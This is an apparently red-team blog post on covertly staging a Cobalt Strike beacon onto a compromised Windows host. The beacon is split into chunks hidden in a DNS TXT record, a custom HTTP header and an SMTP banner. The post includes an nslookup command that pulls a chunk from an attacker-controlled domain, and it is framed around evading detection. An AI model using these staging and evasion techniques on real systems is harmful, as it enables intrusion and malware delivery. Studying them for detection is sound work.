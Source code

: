 ```yaml
---
title: "Infiltrating CS Beacon through out different mediums"
date: 2022-01-03T16:56:40-05:00
---
```


## Introduction:
Hello Everyone, We all have heard of many infiltration techniques that were widely used making them easy to be detected. so we at Confidential took a step toward an infiltration technique that will make it a bit more complex in order not to be detected by any sense. Today's article will clarify how we have infiltrated CS beacon through out different mediums.

## Brief
We splitted the CS beacon into multiple chunks that will be later infiltrated from different mediums (DNS txt record, custome HTTP response header, and SMTP server's banner) using an executable agent that we will show a full demo about at the end of the article. 


## DNS txt record:
TXT records are a type of Domain Name System (DNS) record that contains text information. According to Google

Simply we can add our CS beacon's chunked as a txt dns record so when we perform a txt DNS query it will be resolved by the DNS Server resulting in getting the chunked part.


```
nslookup -querytype=txt confidential.example.com
```

![](../../img/infiltration/1.png)

## HTTP Response Header:
We configured our web server Response header so that we have the 2nd CS beacon's chunk in a custom response header called `Confidential`.

![](../../img/infiltration/2.png)

## SMTP Server's Banner:
We set up our SMTP Server and modified its configuration adding up the last chunck in the SMTP server's banner.

![](../../img/infiltration/3.png)

## Demo
Our team developed a tool that automates the process with more features. Here's a demo of the executable agent that we fired up inside the compromised windows machine.

![](../../img/infiltration/4.gif)


![](../../img/infiltration/5.png)


All techniques mentioned above are just limited examples of how you can infiltrate your malicious payload to the compromised machine. You still can come up with your own ideas that suits the scenario



## Refrences:

- https://support.google.com/a/answer/2716800?hl=en
- https://github.com/PaloAltoNetworks/research-notes/blob/master/notes/DNS-based%20data%20exfiltration%20and%20infiltration%20technology%20and%20detection.pdf
